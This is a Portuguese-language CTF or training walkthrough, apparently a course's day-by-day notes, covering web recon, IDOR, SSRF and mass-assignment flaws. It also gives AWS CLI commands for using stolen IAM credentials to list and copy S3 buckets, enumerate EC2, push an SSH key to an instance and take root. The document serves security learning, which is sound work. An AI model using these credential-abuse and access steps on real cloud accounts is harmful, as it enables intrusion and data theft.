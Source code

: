# Anatações

## Dia 01 - Recon Scritps

Reconhecimento da aplicação.
É uma parte fundamental para encontramos vulnerabilidades. Quanto mais soubemos sobre a aplicação mas vulnerabilidades podemos encontramos.

O que podemos encontrar nessa etapa:

- Portas, IP, servidores em execução.
- Quais tecnologias existem no site.
- Mapear pasta, diretórios e rotas.

## Dia 02 - Análise e identificação de vulnerabilidades

Identificar → analisar → explorar

Na identificação do diretório **./git/**, foi feito Code Review e depois a exploração.

Vulnerabilidades encontradas:

- **IDOR** (Insecure Direct Object Reference) - Não verifica o usuário autenticado, permite acesso a conteúdo de outro usuário.
- **SSRF** (Server Side Request Forgery) - pode levar ao comprometimento do servidor e da rede do cliente.
- **Mass Assignment** - é possível editar qualquer campo no perfil do usuário.

**Desafio**: Explorar a vulnerabilidade IDOR

![flag desafio 02](/shw/pics/flag02.png)

## Dia 03 - Exploração / Invasão

Exploração a vulnerabilidade de SSRF e acesso a AWS.

**CSRF**: tentativa de falsificação de requisição.
Bloqueado pelo Laravel, que utiliza de duas validações:

- Cookie: **XSRF-TOKEN**
- **_token**, gerado randomicamente a cada novo post.

**Burp** suite: tentativa de falsificação de requisição.
Com o burp conseguimos realizar com sucesso:

- Listamos e alteramos campos do usuario. Alterando o tipo de usuário para usuário admin. Vulnerabilidade foi permitida porque não tinha restrição de campo que impeça a alteração do tipo de usuário.
- Acesso IAM. Como acesso ao IAM, conseguimos pegar o servidor atrelado ao perfil e as credenciais:

```bash
AWS_ACCESS_KEY_ID
AWS_SECRET_ACCESS_KEY
AWS_SESSION_TOKEN
```

**Acesso AWS**
Utilizamos AWS CLI, add as credenciais e realizamos uma chamada direita entre nós e AWS:

```bash
aws sts get-caller-identity #verifica se a chave tá funcionando e quem somos nós na AWS
```

Retornando:

```js
{
  UserId, 
  Account,
  Arn
}
```

Testamos o acesso ao S3

```bash
aws s3 ls
```

Retornando com sucesso.

**Desafio**: Encontrar a flag que tá no bucket em user-data.txt

**Solução**: Pesquisei como eu poderia copiar um arquivo do Bucket para a minha máquina.
Encontrei sobre o [CP](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/s3/cp.html).

Basicamente eu chamaria o cp passando o Bucket com o . --recusive, assim eu copiaria tudo do Bucket para a minha máquina.</br>

Depois fiz um cat no arquivo user-data.txt, encontrando a flag.

![flag desafio 03](/shw/pics/flag03.png)

## Dia 04 - Pós-Exploração na AWS

- Listar sevidores(ec2)

```bash
aws ec2 describe-instances
```

![ec2 IP](/shw/pics/ec2-ip-new.png)

Colocamos a lista em leitor de JSON

![lista json](/shw/pics/ec2-retorno-ip.png)

Ao listar ec2, vimos IP que não conhecemos, fizemos um nmap e depois nmap sem o ping.

- Conectar instância EC2:

```bash
ec2-instace-connect help
```

![ec2 help](/shw/pics/ec2.help.png)

EC2 permite que o administrador de sistema envie uma chave ssh publica deles para um servidor.

Olhamos o que precisamos enviar para ter esse acesso:

```bash
aws ec2-instance-connect send-ssh-public-key help
```

![send-ssh-help](/shw/pics/send-ssh-help.png)

```bash
aws ec2-instance-connect send-ssh-public-key \
--instance-id i-1234567890abcdef0 \
--instance-os-user ec2-user \
--availability-zone us-east-2b \
--ssh-public-key file://path/my-rsa-key.pub
```

- Precisamos criar chave ssh (só crie se você não tiver uma)

```bahs
ssh-keygen
```

- Precisamos enviar chave publica para o servidor.

```bash
aws ec2-instance-connect send-ssh-public-key --instance-id i-032802861b7c9c59c --instance-os-user ec2-user --ssh-public-key file:///home/kali/.ssh/id_rsa.pub --availability-zone us-east-1a --region us-east-1
```

- instance-id e availability-zone são daquele IP que não conhecemos.

![dados ip](/shw/pics/dado-ip.png)

- Chave enviada com sucesso

![chave enviada](/shw/pics/ec2-send-key-ok.png)

- Agora vamos conectar com o servidor passando a chave ssh(chave privada)

```bash
ssh -i /home/kali/.ssh/id_rsa ec2-user@44.202.22.33
```

![aws](/shw/pics/acessando-aws.png)

**Desafio**: Virar usuario root da máquina
**Solução**:

- sudo passwd root : para mudar a senha do root
- su - : coloquei a nova senha
- ls -la: listei diretórios
- cat root.txt : encontrei a flag

![flag desafio 04](/shw/pics/flag04.png)
